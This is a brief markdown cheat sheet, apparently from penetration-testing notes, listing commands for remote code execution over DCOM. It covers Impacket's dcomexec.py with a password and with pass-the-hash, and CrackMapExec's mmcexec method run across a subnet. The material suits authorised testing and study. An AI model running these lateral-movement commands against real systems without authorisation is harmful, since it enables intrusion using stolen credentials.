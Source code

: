 # Unix Shell

## 01 - Impacket

`$ dcomexec.py <username>:<password>@<IP> [-codecs <codec>]`

- Pass the Hash

`$ dcomexec.py -hashes aad3b435b51404eeaad3b435b51404ee:<NT> <username>@<IP>`

## 02 - CrackMapExec

`$ crackmapexec smb <IP>/<CIDR> --exec-method mmcexec [-d <domain_name>] -u "<username>" -p "<password>"`